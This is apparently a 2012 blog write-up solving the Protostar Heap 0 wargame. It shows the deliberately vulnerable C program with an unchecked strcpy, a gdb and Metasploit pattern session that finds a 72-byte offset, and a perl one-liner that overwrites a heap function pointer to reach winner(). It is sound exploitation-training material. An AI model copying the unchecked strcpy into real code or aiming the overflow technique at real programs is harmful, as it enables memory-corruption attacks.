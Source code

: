 ```yaml
---
title: "Exploit Exercises - Protostar Heap 0"
date: "2012-01-10T05:34:00-05:00"
comments: true
highlight: "true"
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
 - heap
aliases:
 - "/2011/12/exploit-exercises-protostar-heap-0.html"
---
```


Now that I've completed all of the Stack section of protostar, I've started to move onto Heap.  The first of these challenges, is [Heap 0](http://exploit-exercises.com/protostar/heap0).  

<!-- more -->

We are given the following code:

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
 char name[64];
};

struct fp {
 int (*fp)();
};

void winner()
{
 printf("level passed\n");
}

void nowinner()
{
 printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
 struct data *d;
 struct fp *f;

 d = malloc(sizeof(struct data));
 f = malloc(sizeof(struct fp));
 f->fp = nowinner;

 printf("data is at %p, fp is at %p\n", d, f);

 strcpy(d->name, argv[1]);

 f->fp();

}
```

I first needed to find the offset to where I could overwrite the EIP, so I connected to my other machine with the [Metasploit Framework](http://www.metasploit.com) installed, and generated a unique string.

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 250
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
```

I then used this string as the input to the heap0 executable.

```
user@protostar:/opt/protostar/bin$ gdb ./heap0 --quiet
Reading symbols from /home/user/heap0...done.
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
Starting program: /home/user/heap0 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A
data is at 0x804a008, fp is at 0x804a050

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
(gdb) print winner
$1 = {void (void)} 0x8048464 <winner>
```

Notice that we see the EIP is 0x41346341.  Additionally while I was debugging, I also got the address of the "winner" function, since I will want to redirect to that later.  It was at 0x08048464. 

I then connected to my [Metasploit Framework](http://www.metasploit.com) enabled machine to calculate the offset. 

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x41346341
72
```

I then simply used perl to create an argument for the heap0 executable with 72 "A"s for spacing, and passing the address of the "winner" function in little-endian format to it.  It then succeeded.

```
user@protostar:/opt/protostar/bin$ ./heap0 `perl -e 'print "A"x72 . "\x64\x84\x04\x08"'`
data is at 0x804a008, fp is at 0x804a050
level passed
```

